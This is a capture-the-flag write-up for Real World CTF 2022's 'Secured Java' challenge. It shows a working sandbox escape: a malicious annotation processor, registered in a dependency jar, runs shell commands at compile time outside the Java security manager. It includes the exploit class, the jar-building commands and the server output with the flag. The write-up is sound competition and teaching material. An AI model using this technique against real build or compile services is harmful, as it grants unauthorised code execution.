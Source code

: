 ```yaml
---
title: 'Secured Java - Real World CTF 2022'
permalink: /writeups/realworld2022/securedjava
---
```


## Secured Java

> Found a way to run untrusted java code
> nc 139.224.248.65 1337

## Analysis

The challenge consists of a single python file that receives a Main.java and the dep.jar (jar containing the dependencies required for main to run). Then it compiles the Main class and runs it with the security manager and with 0 permissions on the code.

## Exploit

This is an easy challenge if you are very familiar with java's jar files. Since I wasn't it took me a while to discover the solution. The security manager won't allow us to do anything and there isn't any known ways to bypass it. Therefore, our solution can't rely on running our Main class.
However, in a jar file, you can specify a class to create other source files at compile time. Meaning that it will execute our code without the security manager, just like we needed.
All the classes that execute at compile time need to extend AbstractProcessor.

```java
import java.util.*;
import java.io.*;
import javax.lang.model.*;
import javax.lang.model.element.*;
import javax.annotation.processing.*;

public class Exploit extends AbstractProcessor{

    static {
        try{
            BufferedReader in = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec("cat /flag").getInputStream()));
             System.out.println(in.readLine());
        }
        catch(Exception e){
            System.err.println("Err:" + e.getMessage());

        }
    }

    // These methods needs to be defined, but doesn't matter
    // as the above static block will run before anything else
    @Override
    public synchronized void init(ProcessingEnvironment env) { }
    @Override
    public boolean process(Set<? extends TypeElement> annoations, RoundEnvironment env) { return false; }
    @Override
    public Set<String> getSupportedAnnotationTypes() { return null; }
    @Override
    public SourceVersion getSupportedSourceVersion() { return null; }
  
}
```

Above is my exploit class that will be executed at compile time. The inherited methods need to be defined to ensure that the Exploit.java compiles, but aren't necessary in the exploit since the static method will be executed before any of them. The static method simply runs cat /flag and prints it to the standard output (retrieving our flag).
We our Explooit class done, we need to create the jar file. To ensure that the class will be run at runtime, we will need to put the class' name in the file META-INF/services/javax.annotation.processing.Processor and add it to the jar. The commands I ran as are follows.

```bash
javac -cp javax.jar Exploit.java
jar cvf dep.jar META-INF Exploit.class
```

This creates the dep.jar file with the Exploit class as a service. The Main.java can have anything you won't as long as it doesn't fail while compiling.
Finnaly, all there it need to be done is to send the Main.java and dep.jar to the server and get the flag

```bash
rwctf{818dd1e92a56d1badd5234367d15d563}
An annotation processor threw an uncaught exception.
Consult the following stack trace for details.
java.lang.NullPointerException: Cannot invoke "javax.lang.model.SourceVersion.compareTo(java.lang.Enum)" because "procSourceVersion" is null
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment$ProcessorState.checkSourceVersionCompatibility(JavacProcessingEnvironment.java:765)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment$ProcessorState.<init>(JavacProcessingEnvironment.java:704)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment$DiscoveredProcessors$ProcessorStateIterator.next(JavacProcessingEnvironment.java:829)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment.discoverAndRunProcs(JavacProcessingEnvironment.java:925)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment$Round.run(JavacProcessingEnvironment.java:1269)
    at jdk.compiler/com.sun.tools.javac.processing.JavacProcessingEnvironment.doProcessing(JavacProcessingEnvironment.java:1384)
    at jdk.compiler/com.sun.tools.javac.main.JavaCompiler.processAnnotations(JavaCompiler.java:1261)
    at jdk.compiler/com.sun.tools.javac.main.JavaCompiler.compile(JavaCompiler.java:935)
    at jdk.compiler/com.sun.tools.javac.main.Main.compile(Main.java:317)
    at jdk.compiler/com.sun.tools.javac.main.Main.compile(Main.java:176)
    at jdk.compiler/com.sun.tools.javac.Main.compile(Main.java:64)
    at jdk.compiler/com.sun.tools.javac.Main.main(Main.java:50)
Compiling...
Failed to compile!
```

## Final Notes

Overall it was an interesting challenge as it was my first java exploit. Also, I now understand why it had schrodinger dificulty, since it was easy and not easy at the same time (if you knew how to run code at compile time this was an easy challenge, otherwise it proved to be a litle complicated)
